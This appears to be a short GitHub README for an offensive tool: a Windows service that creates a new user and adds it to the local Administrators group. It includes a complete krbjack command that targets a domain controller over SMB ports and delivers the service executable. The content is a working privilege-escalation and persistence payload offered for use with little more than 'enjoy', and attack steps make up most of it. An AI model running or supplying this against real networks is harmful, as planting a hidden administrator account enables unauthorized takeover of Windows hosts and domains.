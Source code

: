 # svcadduserAdmin
Simple service that creates a new user and adds it in localgroup Administrators


I used it with https://github.com/almandin/krbjack

usage:
![image](https://github.com/foxlox/svcadduserAdmin/assets/28823598/ba3fb701-4446-4a6d-9dae-d3ab5cc3f7f7)

edit the source in the picture and replace:
str(uuid etc) with 'service1'

'''
python3 -m krbjack --target-name winattacker --domain bluelab.local --dc-ip 172.27.18.19 --ports 139,445 --executable /opt/service1.exe
'''

enjoy

